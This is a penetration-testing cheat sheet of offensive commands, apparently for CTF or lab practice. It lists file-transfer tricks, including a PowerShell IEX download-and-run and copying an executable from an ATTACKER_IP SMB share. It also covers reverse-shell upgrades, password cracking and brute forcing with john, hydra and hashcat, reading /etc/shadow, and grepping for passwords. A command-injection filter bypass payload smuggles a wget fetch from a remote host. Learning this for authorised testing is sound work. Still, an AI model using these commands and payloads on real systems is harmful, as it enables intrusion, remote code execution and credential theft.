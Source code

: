 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp [-r] <file path> $user@$ip:/<where you want to store it>`&#x20;

#### Powershell

```
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.31.141/ignite.txt', 'ignite.txt')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
net use \\ATTACKER_IP\share /del
```

## Upgrading Reverse Shell&#x20;

```
python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z
# In Kali
stty raw -echo
stty size
fg

#In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
$stty rows <num> columns <cols>

/usr/bin/script -qc /bin/bash /dev/null

SOCAT
```

## Password Cracking

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

{% embed url="https://github.com/stealthsploit/OneRuleToRuleThemStill" %}

{% embed url="https://kevinovitz.github.io/TryHackMe_Writeups/passwordattacks/passwordattacks/#online-password-attacks" %}

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt
```

## Bypass Character Filters

```
${IFS} - Internal Field Separator, default variable in bash

0xdf;{ping,-c,1,10.10.14.23};#
0xdf;ping -c 1 10.10.14.23;#

#Quotes was also not URL encoded
password=%0abash%09-c%09"wget%09http://10.10.16.48/1.sh"&backup=
%0a : \n
%09 : \t
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

## Git

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]
git restore [file]
git log
git checkout [hash]

```
